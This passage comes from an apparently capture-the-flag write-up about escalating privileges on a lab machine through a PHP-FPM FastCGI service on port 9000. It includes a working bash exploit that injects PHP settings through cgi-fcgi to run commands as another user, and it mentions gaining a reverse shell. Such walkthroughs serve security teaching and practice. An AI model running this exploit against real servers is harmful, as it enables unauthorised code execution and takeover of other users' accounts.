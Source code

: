 <figure><img src="../../../.gitbook/assets/image (3) (3) (2).png" alt=""><figcaption></figcaption></figure>

### PHP-FPM

I ran `netstat -tulpn` to see what services were running on the machine, and found that port 9000 was listening to something.

<figure><img src="../../../.gitbook/assets/image (6) (7) (1).png" alt=""><figcaption></figcaption></figure>

I also ran LinPEAS to find some escalation vectors to victor. This user was also running the `php-fpm` master process or something.

<figure><img src="../../../.gitbook/assets/image (5) (8) (1).png" alt=""><figcaption></figcaption></figure>

Further enumeration reveals that port 9000 was FastCGI, and this was vulnerable to RCE. Since Victor is running it, this is our privilege escalation vector. We just need to make a script that would give us another reverse shell.

Here's the script;

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/tmp/index.php" # Exisiting file path

HOST='127.0.0.1'
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```
